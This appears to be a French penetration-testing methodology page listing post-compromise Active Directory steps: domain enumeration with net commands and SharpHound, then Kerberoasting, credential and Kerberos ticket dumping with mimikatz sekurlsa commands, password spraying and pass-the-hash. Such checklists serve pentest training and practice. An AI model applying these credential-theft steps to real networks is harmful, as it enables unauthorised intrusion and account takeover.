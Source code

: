 # Méthodologie

## AD (suite à la compromission d'une machine)

Lancer le script `WinPEAS` et analyser le système avec les commandes suivantes :&#x20;

```
# Lister les utilisateurs locaux
net user

# Lister les utilisateurs du domaine
net user /domain

# Afficher les détails sur un utilisateur du domaine
net user jeff_admin /domain

# Lister les groupes du domaine
net group /domain

# Lancer Sharphound
./SharpHound.exe

# Est-ce qu'il y a des comptes Kerberoastable ?
### Attaque Kerberoast

# Est-ce qu'il y a des utilisateurs du domaine connectés à la machine ? (winPEAS)
### Tentative de dump leur mot de passe : sekurlsa::logonpasswords
### Tentative de dump leur ticket kerberos : sekurlsa::tickets

# Analyser la politique de mot de passe
net account
### Password Spraying

# Pass-The-Hash
```
